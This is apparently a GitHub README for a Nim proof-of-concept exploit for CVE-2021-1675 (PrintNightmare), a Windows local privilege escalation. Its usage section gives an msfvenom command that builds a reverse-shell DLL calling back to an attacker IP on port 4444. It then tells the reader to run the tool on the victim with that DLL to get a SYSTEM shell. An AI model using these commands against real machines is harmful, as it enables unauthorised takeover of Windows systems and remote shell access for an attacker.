

# CVE-2021-1675 LPE PoC

not my exploit! just wanted to play around with the `winim` library in nim.

### Usage

Generate DLL payload with `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.8.237 LPORT=4444 -f dll > msfvenom.dll`, then start the handler on your attacker.

On the victim run `.\nimnightmare.exe <ABSOLUTE_PATH_TO_DLL>` and get a shell as SYSTEM.

